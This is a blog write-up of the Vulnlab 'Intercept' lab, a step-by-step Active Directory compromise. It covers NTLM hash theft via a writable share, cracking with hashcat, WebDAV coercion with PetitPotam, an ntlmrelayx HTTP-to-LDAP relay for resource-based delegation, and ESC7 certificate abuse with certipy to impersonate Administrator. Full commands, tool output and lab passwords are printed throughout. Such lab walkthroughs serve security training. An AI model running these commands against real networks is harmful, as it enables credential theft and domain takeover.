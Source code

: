 ```yaml
---
title: Vulnlab-Intercept
date: 2024-07-12 02:07:00 +/-TTTT
categories: [Active-Directory]
tags: [ntlm_theft, Ldap-Signing-Not-Enforced!, ntlmrelayx,]     # TAG names should always be lowercase
---
```


![alt text](../assets/images/intercept_slide.png)
# Initial enumeration

## Nmap Scan

    10.10.192.213(dc01)
    53/tcp   open  domain        syn-ack ttl 127 Simple DNS Plus
    88/tcp   open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2024-07-09 18:39:35Z)
    135/tcp  open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
    139/tcp  open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
    389/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: intercept.vl0., Site: Default-First-Site-Name)
    445/tcp  open  microsoft-ds? syn-ack ttl 127
    464/tcp  open  kpasswd5?     syn-ack ttl 127
    593/tcp  open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
    636/tcp  open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: intercept.vl0., Site: Default-First-Site-Name)
    3268/tcp open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: intercept.vl0., Site: Default-First-Site-Name)
    3269/tcp open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: intercept.vl0., Site: Default-First-Site-Name)
    3389/tcp open  ms-wbt-server syn-ack ttl 127 Microsoft Terminal Services

    10.10.192.214(ws01)

    135/tcp  open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
    139/tcp  open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
    445/tcp  open  microsoft-ds? syn-ack ttl 127
    3389/tcp open  ms-wbt-server syn-ack ttl 127 Microsoft Terminal Services

Since we don't have any credentials, we could try to log in as the guest account. In this case, the account seems to be enabled on WS01, but not on the DC.

![alt text](../assets/images/Screenshot_2024-07-12_18_19_22.png)

Since we have WRITE privileges over this share, and we know that developers usually check it regularly, we could abuse [ntlm_theft](https://github.com/Greenwolf/ntlm_theft) and try to got ntlm hash here.
## ntlm theft


    ➜  ntlm_theft git:(master) python3 ntlm_theft.py --generate all --server 10.8.2.152 --filename osman

Let's pop it into hashcat and see if it cracks.



![alt text](../assets/images/Screenshot_2024-07-12_18_26_06.png)

    ➜  intercept hashcat -m 5600 hash1 /usr/share/wordlists/rockyou.txt 
    Dictionary cache hit:
    Filename..: /usr/share/wordlists/rockyou.txt
    Passwords.: 14344385
    Bytes.....: 139921507
    Keyspace..: 14344385

    KATHRYN.SPENCER::INTERCEPT:4f9b7ec78c7742f7:0a0bba672a19d3ac07eabfbcbca55cc7:010100000000000000[snip]000000000000000000:<redacted>

Let's think, how could we take over WS01? We are not a local admin and we cannot RDP… Coerce attacks are a real nuisance nowadays, however, SMB signing is enforced on the Domain Controller, this completely mitigates any SMB -> SMB or SMB -> LDAP relaying to the DC.

However, since this is a workstation, all Windows 10 machines come pre-installed with the WebClient service, it may not be active by default, but there are ways to trigger it. If WebClient was running on that computer, somehow coercing the computer account to authenticate back to us via WebDav, could allow us relaying from HTTP -> LDAP, even if SMB signing is enabled, but we would also need LDAP signing to not be enforced. Let’s check it out.
## Ldap Signing Not Enforced!
We can use crackmappexec's webdav and ldap-checker modules to verify it, and it looks like the WebClient is running!

    ➜  intercept crackmapexec ldap 10.10.192.213 -u Kathryn.Spencer -p <redacted>  -M ldap-checker 
    SMB         10.10.192.213   445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:intercept.vl) (signing:True) (SMBv1:False)
    LDAP        10.10.192.213   389    DC01             [+] intercept.vl\Kathryn.Spencer:Chocolate1 
    LDAP-CHE... 10.10.192.213   389    DC01             LDAP Signing NOT Enforced!
    LDAP-CHE... 10.10.192.213   389    DC01             Channel Binding is set to "NEVER" - Time to PWN!

And LDAP Signing is NOT Enforced!

U may wanna check [this](https://medium.com/@njoffsec/bypassing-ldap-channel-binding-when-ldap-signing-is-not-enforced-f6093bab5a67) for time to PWN! but i will use my blog after that.

U can find dnstool.py file [here](https://github.com/dirkjanm/krbrelayx)

    ➜ krbrelayx git:(master) python3 dnstool.py -u 'intercept.vl\Kathryn.Spencer' -p <redacted> --tcp -a add -t A -d 10.8.2.152 -r WS02.intercept.vl 10.10.192.213
    [-] Connecting to host...
    [-] Binding to host
    [+] Bind OK
    [-] Adding new record
    [+] LDAP operation completed successfully

This will create the WS02.intercept.vl record and point it to our IP address. Note you have to use the FQDN (Fully Qualified Domain Name) when creating the DNS record.

U can find ntlmrelayx on impacket tools

    ➜  examples git:(master) ✗ ntlmrelayx.py -t ldap://10.10.192.213/ --delegate-access
    Impacket v0.12.0.dev1+20240626.193148.f827c8c7 - Copyright 2023 Fortra

    [*] Protocol Client DCSYNC loaded..
    [*] Protocol Client HTTP loaded..
    [*] Protocol Client HTTPS loaded..
    [*] Protocol Client LDAP loaded..
    [*] Protocol Client LDAPS loaded..
    [*] Protocol Client SMTP loaded..
    [*] Protocol Client IMAPS loaded..
    [*] Protocol Client IMAP loaded..
    [*] Protocol Client SMB loaded..
    [*] Protocol Client RPC loaded..
    [*] Protocol Client MSSQL loaded..
    [*] Running in relay mode to single host
    [*] Setting up SMB Server
    [*] Setting up HTTP Server on port 80
    [*] Setting up WCF Server
    [*] Setting up RAW Server on port 6666

    [*] Servers started, waiting for connections

This will listen for incoming HTTP connections on port 80, then, once it receives an inbound authentication attempt, it will relay it to LDAP and perform RBCD as the machine account.

To coerce the machine account of WS01 to authenticate to us via HTTP, we will have to specify <HOSTNAME>@80/<whatever> as the target. It’s necessary to use the HOSTNAME and @80, otherwise authentication will not happen, this is why we needed to create a DNS record. I will use [PetitPotam](https://github.com/topotam/PetitPotam) for this, which will coerce WS01 back to us by using MS-EFSRPC’s EfsRpcEncryptFileSrv function.

  ➜  PetitPotam git:(master) ✗  python3 PetitPotam.py -u Kathryn.Spencer -p Chocolate1 -d intercept.vl 'WS02@80/newtest' ws01.intercept.vl

ntlmrelayx will receive and relay the authentication attempt to the DC using LDAP, it will create a random computer account with a random password and will set up RBCD from the created computer account to WS01, this way, we can impersonate any user on WS01 and take control over it.

    ➜  examples git:(master) ✗ ntlmrelayx.py -t ldap://10.10.192.213/ -smb2support --delegate-access
    [snip]
    [*] Adding new computer with username: HIKVFVEF$ and password: +/lQ2,O$R0(X6Ih result: OK
    [snip]

We are now able to request a TGS to any SPN we want while impersonating any user on that machine. In this case I will request a CIFS TGS (Ticket Granting Service) as the impersonated Administrator user.


    getST.py -spn CIFS/ws01.intercept.vl -impersonate Administrator -dc-ip 10.10.192.213 intercept.vl/'HIKVFVEF$':'+/lQ2,O$R0(X6Ih'

    smbclient.py -k -no-pass -dc-ip 10.10.192.213 ws01.intercept.vl

after those command we sav flag and got here creds:

    Simon.Bowen@intercept.vl:<readacted>

## ESC7 Attack in ADCS


Checking what Simon.Bowen’s privileges are in BloodHound, we see they have GenericAll over the CA-MANAGERS Group and OU, this allows us to add ourselves to the CA-MANAGERS group, also if we really can manage the CA being in that group, we can become DA.

![alt text](../assets/images/d2a2b6aa6afac9291ecc1c7f59bbd7f2.png)

U can use [this](https://github.com/ly4k/Certipy#esc7) directly

    certipy-ad ca -ca 'INTERCEPT-DC01-CA' -add-officer 'Simon.Bowen' -username Simon.Bowen@intercept.vl -password 'b0OI_fHO859+Aw'

    certipy-ad ca -ca 'INTERCEPT-DC01-CA' -enable-template SubCA -username Simon.Bowen@intercept.vl -password 'b0OI_fHO859+Aw'

    certipy-ad req -username Simon.Bowen@intercept.vl -password 'b0OI_fHO859+Aw' -ca 'INTERCEPT-DC01-CA' -dc-ip 10.10.192.213 -template SubCA -upn administrator@intercept.vl

    certipy-ad ca -ca 'INTERCEPT-DC01-CA' -issue-request 4 -username Simon.Bowen@intercept.vl -password 'b0OI_fHO859+Aw'

    certipy-ad req -username Simon.Bowen@intercept.vl -password 'b0OI_fHO859+Aw' -ca 'INTERCEPT-DC01-CA' -dc-ip 10.10.192.213 -retrieve 4

it will give u administrator pfx and u can extract with this

    ➜  intercept certipy-ad auth -pfx administrator.pfx -username Administrator -domain intercept.vl

